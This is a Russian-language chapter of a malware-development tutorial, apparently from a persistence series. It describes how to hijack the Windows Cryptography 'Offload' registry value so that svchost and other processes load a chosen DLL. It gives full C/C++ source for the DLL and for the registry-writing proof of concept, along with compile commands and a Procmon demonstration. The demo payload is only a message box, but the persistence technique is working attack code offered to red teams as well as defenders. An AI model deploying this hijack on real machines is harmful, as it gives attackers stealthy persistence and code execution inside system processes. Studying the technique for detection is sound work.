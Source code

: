 \newpage
\subsection{82. разработка вредоносного ПО: закрепление (persistence) - часть 16. Криптографические ключи реестра. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/76/2022-10-21_05-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через ключи реестра Cryptography.     

В процессе изучения реестра я наткнулся на интересный путь:     

`HKLM\Software\Microsoft\Cryptography\`     

И там есть такая функция `OffloadModExpo`. Если я правильно понимаю, эта функция используется для выполнения всех модульных возведений в степень как для операций с открытым, так и с закрытым ключом:     

![pers](./images/76/2022-10-21_05-45.png){width="80%"}    

Я не вдавался в слишком большие подробности, самой возможности поэкспериментировать с этим ключом и значением в реестре Windows мне достаточно. Поэтому я попробовал перехватить путь к этой DLL:     

`HKLM\Software\Microsoft\Cryptography\Offload` и его значение.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL. Как обычно, просто `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - malicious DLL
DLL hijacking Cryptography registry path
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Компилируем:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](./images/76/2022-10-21_05-20.png){width="80%"}    

И создаем Proof-of-Concept код для перехвата (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
    // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
    evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Вот и все, что мне нужно для эксперимента.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш Proof-of-Concept код:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/76/2022-10-21_05-21.png){width="80%"}    


Затем, для чистоты эксперимента, проверяем ключи реестра на машине жертвы и удаляем ключи, если они существуют:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](./images/76/2022-10-21_05-23.png){width="80%"}    

Затем запускаем наш скрипт `pers.exe` и проверяем снова:     

![pers](./images/76/2022-10-21_05-24.png){width="80%"}    

Теперь попробую запустить что-нибудь. Например, открыть ссылку `https:\...` в браузере или воспользоваться строкой поиска.    

![pers](./images/76/2022-10-21_05-25_1.png){width="80%"}    

В процессе выполнения некоторых криптографических операций в фоне мы будем видеть все больше всплывающих окон.    

![pers](./images/76/2022-10-21_05-27.png){width="80%"}    

![pers](./images/76/2022-10-21_05-27_1.png){width="80%"}    

![pers](./images/76/2022-10-21_05-28.png){width="80%"}    

Кроме того, мне даже не удалось запустить `Process Hacker 2` для исследования ситуации.     

![pers](./images/76/2022-10-21_06-09.png){width="80%"}    

Затем я восстановил снимок виртуальной машины и запустил `Procmon` из sysinternals с следующими фильтрами:     

![pers](./images/76/2022-10-21_06-20.png){width="80%"}    

![pers](./images/76/2022-10-21_06-22.png){width="80%"}    

И в результате:     

![pers](./images/76/2022-10-21_06-24.png){width="80%"}    

![pers](./images/76/2022-10-21_06-25.png){width="80%"}    

Как можно видеть, на каком-то этапе моя "вредоносная" `meow-meow` DLL была загружена `svchost.exe`, `ProcessHacker.exe` и другими процессами.     

Таким образом, все сработало правильно. Идеально! =^..^=     

После завершения экспериментов восстанавливаем состояние реестра: 

![pers](./images/76/2022-10-21_05-33.png){width="80%"}    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     

